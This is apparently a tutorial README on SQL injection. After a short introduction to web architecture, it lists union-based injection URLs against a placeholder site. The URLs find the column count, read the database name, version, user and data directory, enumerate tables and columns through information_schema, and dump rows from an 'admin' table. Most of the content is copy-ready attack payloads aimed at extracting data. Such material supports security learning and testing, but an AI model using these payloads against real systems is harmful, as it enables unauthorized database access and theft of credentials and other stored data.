 # SQL Injection Basic To Advanced

## 1. Introduciton
**Web Architecture**
![Web Architecture](https://axisbits.com/storage/app/uploads/public/7da/cc4/ec1/7dacc4ec1c9bc16b7aa58185cb8efa5a.png "Web Architecture")
<br>
**Client Side**
```
HTML
CSS 
JavaScript
```
**Server Side**
```
PHP
ASP
Python
Ruby on Rails
Node JS 
SQL
```
**Database Management Systems**
```
MySQL
PostgreSQL
Oracle SQL
```
> URL(Uniform Resource Locator) Structure
![Web Architecture](https://static.semrush.com/blog/uploads/media/fa/fe/fafe931ac85fc1c5b628299e399a2870/yqyhmdwqsDzxONy4U6FyLwK_LN_hl36xIGyfon2xWiopIuhrhR4w08c-NbWe2EnJXUh0RWDOCtMrlVNhqlBVmWRjKI3freLX4X_1Ugk7_9FwqgquwBsNqfaOnJZQ6xJJnGRKowrKhSBr_xVQZGI6gCg.png "URL")



##

## General Process:
- Find injection point  
- Understand the website behaviour  
- Hunting SQL Errors
- Identify Attack Types
- Injections And Bypass Process
- Dump Data

## SQL Error Hunting Types
- String Based
- Integer Based

## Types Of SQL Injection Attacks
- Union Based SQL Injection Attacks
- Error Based Injection Attacks
- Blind SQL Injections (Bollean Based And Time Based)

![SQL Injection](https://media.geeksforgeeks.org/wp-content/uploads/20220716180638/types.PNG)

# Union Based SQL Injection

## General Process:
- Find Column Count
- Using UNION Operator To Add Malicious Statement
- Gather Database And DBMS Informations
- Finding Tables
- Finding Columns Of Table Or Tables
- Dump Data


**Finding Column Count**
```
https://vuln-web.vuln/product.php?id=1' ORDER BY 1-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1-- -

https://vuln-web.vuln/product.php?id=1' ORDER BY 1 ASC-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1 DESC-- -
```

**Using UNION Operator To Add Malicious Statement**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,3,4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION+ALL+SELECT+null,null,null,null,null-- -
https://vuln-web.vuln/product.php?id=1' UNION(SELECT(1),(2),(3),(4),(5))-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT CHAR(1),CHAR(2),CHAR(3),CHAR(4),CHAR(5)-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT * FROM (SELECT 1)a JOIN(SELECT 2)b JOIN(SELECT 3)c JOIN(SELECT 4)d JOIN(SELECT 5)e-- -
https://vuln-web.vuln/product.php?id=1' UNION Distinctrow SELECT 1,2,3,4,5-- -
```

## Understanding MYSQL DBMS Structures

```
MYSQL DBMS -> USER -> DATABASE -> TABLES -> ROWS -> Data
```
**information_schema Database**
```
provides access to database metadata, information about the MySQL server such as the name of a database or table, the data type of a column, or access privileges.
```

**Gather Database And DBMS Informations**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT database()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT version()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT user()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT @@datadir),4,5-- -
```

**Finding Tables**
```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()),4,5-- -
```

**Finding Columns Of Table Or Tables**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=database() and table_name='admin'),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name,':',column_name) FROM information_schema.columns WHERE table_schema=database()),4,5-- -
```

**Dump Data**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column1,':',column2) FROM admin),4,5-- -
```
